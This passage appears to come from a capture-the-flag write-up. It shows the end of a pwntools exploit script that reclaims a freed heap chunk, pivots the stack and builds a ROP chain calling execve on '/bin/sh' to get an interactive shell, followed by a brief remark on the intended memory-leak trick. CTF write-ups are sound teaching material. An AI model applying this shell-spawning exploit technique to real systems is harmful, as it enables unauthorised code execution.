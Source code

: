 ```python
payload[6+2] = leave
payload[6+3] = pivot
payload[6+4] = rax
payload[6+5] = fake+0x80
payload[6+6] = rdi
payload[6+7] = fake-0x40
payload[6+8] = setrdx
payload[6+9] = rsi
payload[6+10] = 0
payload[6+11] = rdi
payload[6+12] = fake + 8*16
payload[6+13] = rax
payload[6+14] = 0x3b
payload[6+15] = syscall
payload[6+16] = u64(b'/bin/sh\x00')

payload[6+21] = 0

# retake 0x110 sized chunk ( = old tasks ) and place our payload
binary(payload, 0x1)

if args.D:
	#debug(r, [0x77740,0x6f134, 0x6e99b, 0x6f11c])
	debug(r, [0x6e98e])

resume(0)
r.interactive()
r.close()
```

By the way, the intended solution to the first leak part is "Make fast_algo return a number of 16 or more digits." It's because the string has a pointer when displaying 16 or more digits, and this pointer will be broken outside the lambda which is very smart.
